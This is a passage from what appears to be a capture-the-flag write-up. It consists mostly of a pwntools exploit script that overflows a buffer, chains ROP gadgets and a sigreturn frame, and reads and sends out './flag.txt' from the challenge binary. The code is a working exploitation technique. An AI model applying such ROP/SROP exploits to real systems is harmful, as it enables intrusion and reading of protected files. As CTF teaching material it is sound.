 ```cs
    pl = p64(pop_rax) + p64(fd)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret)
    return pl

def sendfile():
    '''call sendfile(rdi=0x1, rsi=0x3, rdx=0x0, r10=0x7fffffff)'''
    pl = p64(pop_rax) + p64(0xf)
    pl += p64(syscall_ret)
    frame = SigreturnFrame(arch = "amd64", kernel="amd64")
    frame.rax = constants.SYS_sendfile
    frame.rsi = 3
    frame.rdi = 1
    frame.rdx = 0
    frame.r10 = 0x50
    frame.rip = syscall_ret
    pl += bytes(frame)
    return pl


def state1():
    payload = b'a'*0x128
    payload += read(bss,0)
    return payload

def state2():
    payload = b'a'*0x128
    payload += open(bss)
    payload += sendfile()
    return payload

input()
payload2 = state1()
p.sendlineafter(b'pwn me pls',payload2)
input()
p.send(b'./flag.txt\x00')

payload3 = state2()
p.sendlineafter(b'pwn me pls',payload3)




p.interactive()
```

![flag](/assets/images/flagshellcode1.png)
